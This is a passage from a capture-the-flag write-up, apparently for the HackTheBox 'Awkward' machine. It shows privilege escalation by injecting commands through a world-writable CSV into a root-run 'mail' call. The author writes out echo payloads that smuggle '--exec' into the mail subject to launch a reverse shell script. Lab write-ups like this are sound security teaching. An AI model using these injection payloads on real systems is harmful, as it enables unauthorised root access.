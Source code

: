 If we look at the leave requests file, which the cron job reads -- and the same CSV we were retrieving by API earlier -- we, as part of the www-data group, have write access to it!:

```bash
www-data@awkward:~/store$ ls -la /var/www/private
total 12
dr-xr-x--- 2 christine www-data 4096 Oct  6 01:35 .
drwxr-xr-x 7 root      root     4096 Oct  6 01:35 ..
-rwxrwxrwx 1 christine www-data  600 Feb  5 08:30 leave_requests.csv
www-data@awkward:~/store$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

The above output from pspy suggests a cron job that sends an email for leave requests for bean and christine, based on the subject passed to `mail`.  Searching the file system for the subject `Leave Request` we find the systemd service:

```bash
ww-data@awkward:/$ grep -irn 'Leave Request' * 2> /dev/null
etc/systemd/system/notify.service:2:Description=Notifies Christine when a new leave request is submitted

www-data@awkward:/$ cat /etc/systemd/system/notify.service 
[Unit]
Description=Notifies Christine when a new leave request is submitted

[Service]
User=root
WorkingDirectory=/root/scripts
ExecStart=/bin/bash -c /root/scripts/notify.sh
Restart=always

[Install]
WantedBy=multi-user.target
```

If I echo a new leave request into the CSV with ` echo "foo,my break, 02/02/2023,03/03/2023,Yes" >> leave_requests.csv`, we get:

```bash
2023/02/05 18:56:04 CMD: UID=0    PID=57141  | mail -s Leave Request: foo christine 
```

We cannot read the script `/root/scripts/notify.sh` -- but given we can write to `leave_requests.csv` directly, and no longer need to worry about filtering, I'm assuming we need to command inject into the subject of the mail command to execute arbitrary code.. 

Looking at https://gtfobins.github.io/gtfobins/mail/ , the `--exec` flag will allow us to execute arbitrary code from within the `mail` command, which in my case will be another reverse shell.

Here's where I spammed different variations of trying to escape from the subject string (`mail -s "<inject here>"`) and run `/dev/shm/test2.sh` - launching my reverse shell on port 3333:

```bash
www-data@awkward:~/private$ echo "\" --exec='\!/dev/shm/test2.sh'" >> leave_requests.csv
www-data@awkward:~/private$ echo "\" --exec=\"\!/dev/shm/test2.sh\"" >> leave_requests.csv
```
